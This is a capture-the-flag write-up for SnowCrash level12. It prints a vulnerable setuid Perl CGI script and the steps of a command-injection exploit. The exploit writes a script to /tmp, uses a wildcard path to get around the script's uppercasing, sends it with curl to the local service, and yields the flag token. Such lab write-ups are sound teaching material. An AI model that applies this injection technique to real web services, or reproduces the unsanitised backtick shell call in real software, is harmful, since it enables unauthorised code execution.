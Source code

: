 # level12

- We login as user level11.
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- A perl script has been left to us, let's `cat level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on localhost through port 4646. It takes two parameters that are passed to the `t()` function, the return of this latter is used to `print()` a message accordingly.


- The `t()` function will change all lowercase characters contained in its first parameter to uppercase, then it will erase any character following a space. The resulting string (`$xx`) will be used by `egrep "^$xx" /tmp/xd 2>&1`.


- Because of `$xx =~ tr/a-z/A-Z/;` we cannot directly send `x=;getflag>/tmp/level12.flag` because all our characters will be transformed into uppercase, so:
```
level12@SnowCrash:~$ ss -tunlp | grep 4646
tcp    LISTEN     0      128                   :::4646                 :::*
```

```
level12@SnowCrash:~$ echo "getflag > /tmp/level12.flag" > /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ curl -X POST -d "x=\`/*/EXPLOIT\`" http://127.0.0.1:4646
```

```
level12@SnowCrash:~cat /tmp/level12.flag46
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```
level12@SnowCrash:~$ su level13
Password:g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```
